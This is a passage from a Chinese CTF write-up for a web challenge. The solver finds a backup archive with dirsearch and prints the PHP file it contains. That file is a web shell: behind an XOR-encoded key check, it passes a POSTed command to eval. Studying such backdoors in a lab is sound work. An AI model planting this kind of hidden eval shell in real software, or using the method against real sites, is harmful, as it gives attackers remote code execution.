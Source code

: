 

### [捉迷藏](https://www.nssctf.cn/team/problem/6245)

#### 题目描述

***快点快点藏起来，快点快点藏起来***

为什么打开网站是空白的呢？

#### 解题思路

![image-20241216174351500](BestiCTF S1 Week14.assets/image-20241216174351500.png)

打开网站，发现没有什么东西，根据 CTF 作战手册第一守责：`遇 Web，先扫描`，使用 dirsearch 扫描目录：

![31e74cf29ffec5db3ef20d8d7e529c5d_4df28b1051](BestiCTF S1 Week14.assets/31e74cf29ffec5db3ef20d8d7e529c5d_4df28b1051.jpg)

喜报，发现了 `www.zip`（一般为网站备份文件），赶紧访问 `/www.zip` 下载，解压，里面有两个 PHP 文件，可以看到 index.php 里基本上没什么东西。还有一个 `h4ll0_W0r1d.php`，审阅代码：

![image-20241216174407091](BestiCTF S1 Week14.assets/image-20241216174407091.png)

```php
<?php

function encrypt($data, $key){
    $data = str_split($data);
    $key = str_split($key);
    $res = '';
    for($i=0; $i<count($data); $i++){
        $res .= chr(ord($data[$i]) ^ ord($key[$i % count($key)]));
    }
    return base64_encode($res);
}

$target = "OAESPhJGazhIRhA=";
$ps = "p1eas4_g1ve";

if(isset($_POST['cmd'])){
    if(isset($_POST['key']))
    {
        $key = $_POST['key'];
        if(encrypt($key, $ps) !== $target){
            die("");
        }
        echo "<pre>";
        $cmd = ($_POST['cmd']);
        @eval($cmd);
        echo "</pre>";
        die;
    }
}

?>
```
